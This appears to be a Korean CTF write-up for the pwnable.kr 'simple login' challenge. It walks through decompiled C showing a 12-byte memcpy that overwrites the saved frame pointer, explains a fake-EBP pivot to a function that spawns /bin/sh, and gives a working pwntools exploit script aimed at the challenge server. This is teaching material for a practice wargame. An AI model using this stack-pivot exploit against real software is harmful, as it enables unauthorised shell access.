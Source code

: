```yaml
---
title: "[pwnable.kr]simple login"
date: 2020-1-17
ctf: Pwnable.kr
layout: post
---
```


입력 받은 값을 `Base64Decode` 함수에서 디코드해서 md5한 값이 `f87cd601aa7fedca99018a8be88eda34` 이 되야하는데 계속 바뀐다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+18h] [ebp-28h]
  char input; // [esp+1Eh] [ebp-22h]
  unsigned int v6; // [esp+3Ch] [ebp-4h]

  memset(&input, 0, 30u);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  printf("Authenticate : ");
  _isoc99_scanf("%30s", &input);
  memset(&::input, 0, 12u);
  v4 = 0;
  v6 = Base64Decode(&input, &v4);
  if ( v6 > 12 )
  {
    puts("Wrong Length");
  }
  else
  {
    memcpy(&::input, v4, v6);
    if ( auth(v6) == 1 )
      correct();
  }
  return 0;
}
```

`auth` 함수에서 memcpy할때 a1만큼하는데 여기서 12가 들어가면 sfp를 덮을 수 있다.

```c
_BOOL4 __cdecl auth(int a1)
{
  char v2; // [esp+14h] [ebp-14h]
  char *md5_value; // [esp+1Ch] [ebp-Ch]
  int v4; // [esp+20h] [ebp-8h]

  memcpy(&v4, &input, a1);
  md5_value = calc_md5(&v2, 12);
  printf("hash : %s\n", md5_value);
  return strcmp("f87cd601aa7fedca99018a8be88eda34", md5_value) == 0;
}
```

`correct` 함수는 쉘을 띄워준다.

```c
void __noreturn correct()
{
  if ( input == 0xDEADBEEF )
  {
    puts("Congratulation! you are good!");
    system("/bin/sh");
  }
  exit(0);
}
```

Fake EBP를 이용한 문제다. sfp를 전역변수인 input으로 덮고 esp + 4위치인 corret함수로 리턴되게하면 된다.

> exploit.py

```python
from pwn import *

e = ELF('./login')
#p = process('./login')
p = remote('pwnable.kr',9003)
_input = 0x0811EB40
_correct = 0x0804940C

payload = p32(0xDEADBEEF) # dummy
payload += p32(_correct) # eip
payload += p32(_input) # sfp -> bss
# leave-ret

p.sendafter(':',payload.encode('base64'))

p.interactive()
```

